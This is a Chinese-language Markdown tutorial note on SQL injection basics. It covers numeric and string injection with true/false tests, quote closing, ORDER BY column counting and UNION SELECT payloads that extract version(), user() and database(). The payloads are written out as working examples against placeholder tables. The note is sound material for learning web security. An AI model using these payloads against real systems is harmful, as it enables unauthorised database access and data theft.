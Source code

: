 ### 数字型注入&字符型注入

#### 数字型注入

```mysql
select * from [table] where id = [x]
## 使用and 1=1 & and 1=2
select * from [table] where id = [x] and 1=1 # 永真，回显正常
select * from [table] where id = [x] and 1=2 # 永假，回显错误
```

#### 字符型注入

字符型注入需要闭合单引号

```mysql
select * from [table] where id = '[x]'
## 使用and 1=1 & and 1=2
select * from [table] where id = 'x and 1=1' # '[x] and 1=1'为一个字符串，无法判断
## 构造 x' and '1'='1
select * from [table] where id = 'x' and '1'='1' # 永真
select * from [table] where id = 'x' and '1'='2' # 永假
```



### Union注入

#### **union联合查询**

* 需要两条或以上的select语句，用union连接
* 查询结果的字段要一致

![image-20210322102706720](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322102706720.png)

#### Order by

使用order by爆出字段数量

```mysql
select * from [table] where id = 1 order by [number]
# number 表示第几个栏位，若number大于字段数则会报错
# payload: 1' order by [number]
# 若number=3时正常回显，number=4时报错或者页面返回结果不同，则代表select字段数为3
# 可以构造
```

![image-20210322100543931](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322100543931.png)![image-20210322101639688](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322101639688.png)

#### 常用函数

database(); version(); user()

```mysql
# payload : 1' union select 1,version()#
select * from users where id = 1 union select 1,version()#
```

